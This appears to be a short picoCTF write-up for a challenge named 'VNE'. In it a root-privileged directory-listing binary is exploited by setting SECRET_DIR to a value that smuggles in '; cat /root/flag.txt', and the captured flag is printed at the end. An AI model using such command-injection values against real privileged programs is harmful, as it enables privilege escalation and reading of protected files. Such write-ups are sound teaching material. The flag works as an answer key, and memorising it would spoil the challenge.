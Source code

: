 # VNE

## Challenge

We've got a binary that can list directories as root, try it out !!

## Solution

Logging in, we see our home directory contains only the executable `bin`. Attempting to run it, we get the output `Error: SECRET_DIR environment variable is not set`.

We try setting `SECRET_DIR="/root"` and running the command again. This time, it outputs:

```
Listing the content of /root as root:
flag.txt
```

We cannot directly view the flag because we don't have sufficient permissions. We try to exploit the binary using the `SECRET_DIR` variable. Running `SECRET_DIR="; cat /root/flag.txt"`and `./bin` outputs the flag.

`picoCTF{Power_t0_man!pul4t3_3nv_3f693329}`
